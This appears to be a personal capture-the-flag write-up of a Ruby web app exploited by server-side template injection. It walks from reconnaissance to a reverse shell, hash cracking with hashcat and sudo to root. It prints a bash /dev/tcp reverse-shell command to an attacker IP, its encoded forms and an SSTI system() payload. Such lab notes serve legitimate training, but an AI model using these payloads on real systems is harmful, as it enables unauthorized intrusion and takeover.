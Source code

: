 Startign with nmap 

![[Pasted image 20240426212421.png]]

![[Pasted image 20240426212450.png]]

the website dashboard

checked the wappalyzer to find the technologies website is using but couldn't find any 
I tried directory fuzzing 

Found this at the bottom of the website 
![[Pasted image 20240426213331.png]]

![[Pasted image 20240426213613.png]]

![[Pasted image 20240426214622.png]]
we got another info that susan is sysadmin 

we can see this in the about us and there might me a vulnerability on secure coding
![[Pasted image 20240426213729.png]]

there is a input field in the website , there might be a input validation vulnerbility

let's do some rearch on the technologies the website is using WEBrick 
![[Pasted image 20240426214042.png]]

but there is no information about vulnerbilities
![[Pasted image 20240426214204.png]]


the above is the robots.txt file we got something intresting 

now we've gatherd information available in the website the next part will be testing the inputs

![[Pasted image 20240426214927.png]]

i did burpsuite scan to get more information about the vulnerbilities and the results are 

![[Pasted image 20240427175147.png]]

to know how to perform a scan in burpsuite refer to [[scanning with burp scanner]]
so i confirmed that there is a way to bypass the input in the calculator

![[Pasted image 20240427175924.png]]

after adding single '  i got this result 
![[Pasted image 20240427180108.png]]

after bit of research i came to know that it is a SSTI vulnerbility (server side template injection)
refer [[SSTI vulnerbility]] 

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

search for ruby payloads in this website

![[Pasted image 20240427181349.png]]


let's try some payloads and see what happens
![[Pasted image 20240427181523.png]]

we've got same result let's keep trying
to encode select the characters and do ctrl+u to do url encoding
![[Pasted image 20240427183501.png]]

i've multiplied 7* 7 and i got the result 49 so <%= 7* 7 %> payload works 

now let's add a linux command to thi payload to see if it works 

![[Pasted image 20240427184648.png]]

we got susan as the username if we used whoami comamnd here

let's do ls and pwd to knwo the direcotries and present directory
to execute commands use  ` 'these 

![[Pasted image 20240427185000.png]]

we got some details

using revshells.com website i created a python payload and gave me shell access

![[Pasted image 20240427185711.png]]

![[Pasted image 20240427185647.png]]


We can generate payload manually on our terminal refer to [[#Generate Payload]]

![[Pasted image 20240427190139.png]]

to get neat terminal we did 
python3 -c 'import pty; pty.spawn("/bin/bash")'


we got the user flag now

![[Pasted image 20240427190343.png]]

![[Pasted image 20240427190922.png]]

cracking password with hash cat  using this command
```
hashcat -m 1400 <hashhere> -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d
```

![[Pasted image 20240428115241.png]]

![[Pasted image 20240428120342.png]]


refer [[Hashcat]] to learn using hashacat

after sometime we finally cracked hashcat password 
susan_nasus_413759210

![[Pasted image 20240428122004.png]]


using sudo bash we switched to root user and got root flag
![[Pasted image 20240428122158.png]]


### Generate Payload

Using hURL to encode and decode payloads demonstrates how we can mess around with data to take advantage of weaknesses in web applications.

Specifically, the payload we’re making for the Weighted Grade Calculator app is made to run a reverse shell command. This way, we can exploit any possible vulnerabilities that let us run code on the server’s side.

```
┌──(kali㉿kali)-[~]
└─$ hURL -B "bash -i >& /dev/tcp/10.10.14.213/7373 0>&1"

Original       :: bash -i >& /dev/tcp/10.10.14.213/7373 0>&1                                                                                                                                                     
base64 ENcoded :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx

┌──(kali㉿kali)-[~]
└─$ hURL -U "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx"

Original    :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx                                                                                                                                          
URL ENcoded :: YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx
```

```
category1=a%0A<%25%3Dsystem("ping+-c1+$myIP");%25>
```
the above is the another paylaod from the write up 
![[Pasted image 20240428122943.png]]